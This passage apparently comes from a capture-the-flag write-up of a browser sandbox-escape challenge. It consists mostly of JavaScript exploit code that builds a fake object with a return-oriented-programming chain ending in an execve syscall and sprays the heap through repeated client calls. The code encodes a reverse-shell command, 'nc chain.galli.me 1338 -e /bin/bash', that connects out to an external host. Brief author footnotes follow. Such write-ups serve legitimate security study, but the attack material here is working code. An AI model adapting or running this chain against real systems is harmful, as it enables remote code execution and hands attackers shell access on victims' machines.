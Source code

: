 ```html
  fake_object[5] = chrome_base + 0x0590cc53n; // mov rsp, [rdi]; mov rbp, [rdi+8]; mov dword ptr [rdi+0x20], 0; jmp qword ptr [rdi+0x10];

  fake_object[6] = pop_rdi;
  fake_object[7] = prog_addr;
  fake_object[8] = pop_rsi;
  fake_object[9] = boxed_mem + 8n - 7n;
  fake_object[10] = pop_rdx;
  fake_object[11] = 0n;
  fake_object[12] = pop_rax;
  fake_object[13] = 59n;
  fake_object[14] = syscall;

  fake_object[15] = 0x632dn; // -c\x00\x00\x00

  // nc chain.galli.me 1338 -e /bin/bash
  fake_object[16] = 0x6e6961686320636en; // nc chain
  fake_object[17] = 0x6d2e696c6c61672en; // .galli.m
  fake_object[18] = 0x2d20383333312065n; // e 1338 -
  fake_object[19] = 0x622f6e69622f2065n; // e /bin/b
  fake_object[20] = 0x687361n; // ash\x00\x00\x00

  fake.pourSand(new Uint8Array(fake_object.buffer));
  print(`Fake object at: ${hex(boxed_mem)}`);

  let clients = [];
  for (let i = 0; i < 1000; i++) {
    clients.push(newClient());
  }

  let spray = [];
  for (let i = 0; i < 100; i++) {
    spray.push(newClient());
  }

  let iface = newClient();

  let arg2 = new BigUint64Array(0x1020 / 8);
  arg2.fill(BigInt(boxed_mem) + 1n);
  arg2[0x800 / 8 + 0x818 / 8] = 0n;
  arg2[1 + 0x800 / 8] = 0x12354567n;
  arg2[2 + 0x800 / 8] = move_stack;

  let arg = new Uint8Array(arg2.buffer);

  for (let i = 0; i < clients.length; i++) {
    clients[i].pourSand(arg);
  }

  for (let i = 0; i < 100; i++) {
    iface.pourSand(arg);
    iface.ptr.reset();
    iface = newClient();
  }

  for (let i = 0; i < spray.length; i++) {
    spray[i].pourSand(arg);
  }

  print('done');
}

async function pwn() {
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.